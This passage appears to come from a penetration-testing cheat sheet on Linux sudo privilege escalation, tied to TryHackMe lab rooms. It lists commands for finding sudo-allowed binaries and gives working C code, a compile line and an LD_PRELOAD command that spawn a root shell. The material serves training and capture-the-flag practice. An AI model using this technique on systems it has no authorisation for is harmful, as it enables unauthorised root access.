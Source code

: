 </div></div>

> **NOTE**: don't forget to redirect any errors with `some_command 2> /dev/null`.

<hr class="sep-both">

## Exploit sudo

*A good reference to exploit sudo: [SUDO_KILLER](https://github.com/TH3xACE/SUDO_KILLER)* (1.6k ⭐).

<div class="row row-cols-md-2"><div>

[![picklerick](../../_badges/thm-p/picklerick.svg)](https://tryhackme.com/room/picklerick)
[![linprivesc](../../_badges/thm-p/linprivesc.svg)](https://tryhackme.com/room/linprivesc#task-12)
[![wgelctf](../../../_badges/thm-p/wgelctf.svg)](https://tryhackme.com/room/wgelctf)

Try to find commands that can be run with sudo

```bash
$ sudo -nl # test if you can sudo without a password
$ sudo -l # if you can't, try with your password
# -> in both cases, if you were successful
# and there are some interesting stuff such as:
Matching Defaults entries for [...]:
    [...] # vulnerable env variables? (LD_PRELOAD...)

User [...] may run the following commands on [...]:
    (root) /bin/tar # see tar#sudo on GTFOBins
```

It's possible for the administrator to only allow a command/multiple commands to be run as root by a user. This is the case with `tar` above. If you can see `ALL`, then you can run any command as root.
</div><div>

With LD_PRELOAD ([see explanation](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/)) and env_keep option set, you can create a root shell by compiling the following code with `gcc -shared -fPIC init.c -o init.so`

```c
void _init() {
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

```bash
# running this will create a root shell
$ LD_PRELOAD=/tmp/init.so tar
```
